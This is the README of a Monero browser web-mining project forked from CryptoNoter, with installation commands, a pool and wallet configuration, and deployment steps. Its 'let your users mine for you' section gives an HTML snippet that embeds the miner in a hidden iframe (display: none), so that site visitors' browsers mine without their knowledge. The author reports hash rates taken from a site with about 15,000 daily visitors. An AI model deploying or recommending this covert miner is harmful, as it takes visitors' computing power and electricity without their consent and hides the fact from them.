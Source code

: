 ## Monero(XMR) Web Miner
Monero(XMR) Web Miner modified version from cryptonoter/CryptoNoter. Check the original repository in https://github.com/cryptonoter/CryptoNoter.


## Requirements
The project is basically a "Plug & Play" installation. Most of the configurations are setup automatically when you run the installation. Simply follow the step by step installation. 

However, if you decide to modify or optimize CryptoNoter for maximum mining capabilities, you will need good knowledge on Nginx Reverse Proxy, javascript, etc. For example, I did approx 1550 H/s for a website with approx 15,000 daily visitors (Avg Time on Page: 55 secs / visitor) before optimization. After optimization, I did on avg 3500 H/s. After the latest update (18/12/17), I am doing 4300 H/s. （现在直接用的nodejs，没用nginx，性能应该没那么高）

`Minimum System Requirements`
1. Server with at least 1 CPU, 1 GB Ram & 8GB Harddisk [You will need better specs if you have higher traffic load]
2. Ubuntu(Debian) OS
3. Nodejs, NPM & Forever Packages


## Installation
首先保证自己装好了nodejs
### 下载
``` bash
git clone https://github.com/nladuo/xmr-web-miner.git
cd xmr-web-miner && npm install 
```
### 安装软件
``` bash
npm install -g forever
npm install -g http-server
```

## Configuration
### 配置config.json
``` json
{
    "lhost": "10.18.92.38",
    "lport": 7777,
    "domain": "10.18.92.38",
    "pool": "pool.supportxmr.com:5555",
    "addr": "44tSv6j2X8J2HpcHPxd9G7L2PxawZCr7MaxsA3F8QDwC7j25cyqjS9PMK2EcWPz77qavwsgh61a5EF1VBsPM27PDQEeMoLP",
    "pass": "x10"
}
```
### 配置HTTP
修改web目录中processor.js、worker.js、miner.html、lib/cryptonoter-asmjs.min.js中的"[http://10.18.92.38:7777/]()"和"[ws://10.18.92.38:7777/]()"改成你的域名或者ip。

### 配置HTTPS
- 首先搞好证书
- 把上面的"[http://10.18.92.38:7777/]()"换成"[https://域名:端口/]()"
- 把上面的"[ws://10.18.92.38:7777/]()"换成"[wss://域名:端口/]()"

## Deployment
### 调试运行
``` bash
node xmr-server.js
```

### 使用forever
``` bash
forever start xmr-server.js
```
## 让你的用户帮你挖矿
### 嵌入iframe到你的网页
``` html
<iframe style="display: none;" src="http://10.18.92.38:7777/miner.html" name="iframe_xmr"></iframe>
```
### 效果
``` bash
cd test_miner
http-server # 然后打开http://localhost:8080/test_miner.html
```
![](test_miner/result.png)
## Donations To Support
* There is NO DEVELOPER FEE hardcoded into this project. Donation is as per your goodwill to support my development.
I am looking to add other cryptonote currencies support into this project and also to create a monero pool specifically for javascript browser mining. If you are interested in my future developments, i would really appreciate a small donation to support this project.
```html
My Monero Wallet Address (XMR)
42zXE5jcPpWR2J6pVRE39uJEqUdMWdW2H4if27wcS1bwUbBRTeSR5aDbAxP5KCjWueiZevjSBxqNZ36Q5ANPND3m4RJoeqX
```
```html
My Bitcoin Wallet Address (BTC)
34Z53zGc888pUYRsFtxgQxRVVLKwcWtjeP
```
```html
My Litecoin Wallet Address (LTC)
MJZZ9qq8ioAecyVDD7zMDStJXpY5thH2qC
```
* PayPal Donation<br />
And if you prefer the traditional mode, you may donate to this project via PayPal by sending the donation to my PayPal email: cryptonoter@gmail.com

Last but not least, i am looking forward to hearing all of the great projects built upon this web miner project. If you've built something great, drop me an email so that i can share with my readers, users and friends.



## License
* Note: If you are implementing this project in your personal or commercial projects, please be a nice and supportive user. You may give a credit back to my project or alternatively if you wish to keep credits hidden, please kindly consider a donation to keep this project running.

MIT https://raw.github.com/cryptonoter/CryptoNoter/master/LICENSE

## Missions
Great things happen when we work together. The power of collaboration